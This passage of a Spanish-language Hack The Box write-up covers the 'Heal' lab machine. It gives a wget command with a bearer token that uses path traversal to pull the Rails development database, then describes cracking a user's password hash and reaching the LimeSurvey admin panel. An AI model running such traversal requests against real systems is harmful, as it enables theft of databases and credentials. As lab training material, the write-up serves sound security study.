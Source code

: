 Tenemos las ubicaciones de las diferentes bases de datos de Rails. 

Vamos a descargar la base de datos de development, que es la que se utiliza en el entorno de desarrollo.

```bash
wget --header="Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc" http://api.heal.htb/download?filename=../../storage/development.sqlite3 -O development.sqlite3
```

[![infodatabase](/assets/img/writeups/hackthebox/heal_htb/infodatabase2.png)](/assets/img/writeups/hackthebox/heal_htb/infodatabase2.png)

Ahora que hemos conseguido el hash de la contraseña para ralph podemos crackearla con John

[![cracked](/assets/img/writeups/hackthebox/heal_htb/cracked.png)](/assets/img/writeups/hackthebox/heal_htb/cracked.png)

## Panel de administración LimeSurvey

Ahora podemos acceder al panel de administración.

Dentro encontramos la versión y buscando por internet podemos encontrar un exploit para ejecutar codigo remoto.

